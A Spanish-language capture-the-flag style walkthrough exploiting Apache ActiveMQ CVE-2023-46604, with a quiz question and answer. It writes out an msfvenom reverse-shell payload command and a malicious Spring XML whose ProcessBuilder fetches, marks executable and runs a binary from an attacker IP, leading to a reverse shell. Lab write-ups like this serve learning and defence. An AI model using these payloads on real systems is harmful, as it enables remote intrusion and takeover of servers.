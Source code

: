 Buscamos la vulnerabilidad respecto a esta versión de ActiveMQ, encontramos el CVE-2023-46604, que es un RCE.  

> Q. ¿Cual es el codigo CVE de la vulnerabilidad de "Ejecucion Remota de Comandos" del ActiveMQ?  
> A. CVE-2023-46604  

Encontramos un exploit en [github](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)  

```bash
$: git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
Cloning into 'CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ'...
remote: Enumerating objects: 20, done.
remote: Counting objects: 100% (20/20), done.
...
$: cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
```

En el exploit nos muestran que hay que crear un ejecutable de linux (`.elf`) con metasploit que entable una reverse shell. 
Introducimos la IP de kali y el puerto en el que escucharemos por netcat. Todo lo haremos desde el directoiro del Exploit  

```bash
$: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.102 LPORT=443 -f elf > shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

Tambien nos comparten un par de `xmls` para Linux y Windows. Retocamos la IP y el puerto, mas el nombre del binario.

```bash
$: vim poc-linux.xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>sh</value>
            <value>-c</value>
            <!-- The command below downloads the file and saves it as test.elf -->
            <value>curl -s -o shell.elf http://10.10.14.102:8080/shell.elf; chmod +x ./shell.elf; ./shell.elf</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```
En cuanto al archivo `main.go` simplemente le manda un paquete en binario que pide al broker solicitarnos el XML malicioso (el cual tendremos que 
servir en un servidor de python). Corremos el exploit y ganamos la reverse shell.
